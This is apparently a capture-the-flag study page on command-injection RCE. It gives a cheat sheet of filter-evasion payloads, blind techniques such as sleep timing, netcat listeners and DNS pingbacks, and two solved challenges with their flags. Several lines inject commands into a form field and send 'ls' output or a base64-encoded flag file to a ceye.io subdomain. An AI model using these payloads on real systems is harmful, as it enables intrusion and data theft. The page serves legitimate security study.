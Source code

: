 # [CTF]RCE



## Bypass

### Chaining commands

```bash
|
||
;
&
&&
```

Alternatives:

```bash
%0a  #Equals to line break. The commands around this will be excuted seperately.
```

### Space

```bash
" "
```

Alternatives:

```bash
${IFS}
$IFS$1
<
>
{command,argv1,argv2}
%20
%09  #Equals to TAB. NEED PHP ENV!
```

### Blacklisted words

#### Bypass with single/double quote

```powershell
w'h'o'am'i
wh''oami

w"h"o"am"i
wh""oami
```

#### Bypass with backticks

```powershell
wh``oami
```

#### Bypass with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

`$0`: Refers to the name of the script if it's being run as a script. If you're in an interactive shell session, `$0` will typically give the name of the shell.

```powershell
who$@ami
echo whoami|$0
```


#### Bypass with $()

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*?  # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e  # calc
```

#### Bypass with multi-line command

```bash
who\%0aam\%0ai

# Equals to:
who\
am\
i

# Equals to:
whoami
```

## No command output

Sometimes, there is no command output in response.  So we can not ensure our commands are executed successfully in direct. So we need to use some special ways to ensure this.

### Use latency functions

```bash
sleep(5)  # This will make the response late for 5 second.
```

This will not display the command output. But we could determine whether our command are excuted successfully or not by the wait time for response.

### Use public server

> [!NOTE]
>
> You need a public IP address to perform this trick.

On your public server, you can use `netcat` to listen on some port.

```bash
nc -lp 8888  # netcat is listening on port 8888
```

And you should add `curl` in your attack commands.

```bash
curl ip:8888
```

> [!IMPORTANT]
>
> Do not forget to configure your firewall settings to allow inbound traffic on port 8888.

### Use Pingback/DNSlog

[ceye](ceye.io)

Burp Suite Collaborator

```bash
ping `whoami`.example.com
curl http://example.com.`whoami`
```

## CTF

### RCE-3

```bash
# body of POST
ip=127.0.0.1%0al\%0as

# Response
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.052 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.052/0.052/0.052 ms
favicon.ico
flag_ady7fgyiufo
index.php
```

Then

```bash
# body of POST
ip=127.0.0.1%0abas\%0ae64<flag_ady7fgyiufo

# Response
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.050 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.050/0.050/0.050 ms
WXVsaW5TZWN7V2U4JGhlTDFfMSRfMU43RVJlczcxbjlfdjJ9
```

Use base64-decode

```
YulinSec{We8$heL1_1$_1N7ERes71n9_v2}
```

### RCE-4

```bash
# body of POST
ip=127.0.0.1

# Response
ok
```

There is no echo. We can use [ceye](ceye.io) to get pingbacks.

```bash
# body of POST
ip=127.0.0.1;curl ping `ls`.ip.port.xxxxxx.ceye.io

# ceye
index.php.ip.port.xxxxxx.ceye.io
```

Check the second line of `ls`:

```bash
# body of POST
ip=127.0.0.1;curl ping `ls|sed -n '2p'`.ip.port.xxxxxx.ceye.io

# ceye
flag_jdhud3ih2a.ip.port.xxxxxx.ceye.io
```

Use `base64` to encode and return the flag.

```bash
# body of POST
ip=127.0.0.1;curl ping `base64 flag_jdhud3ih2a`.ip.port.xxxxxx.ceye.io

# ceye
WXVsaW5TZWN7QkxpbkRfSTVfYXdmdWx9.ip.port.jc4efk.ceye.io
```

Use base64-decode. Get it!

```
YulinSec{BLinD_I5_awful}
```





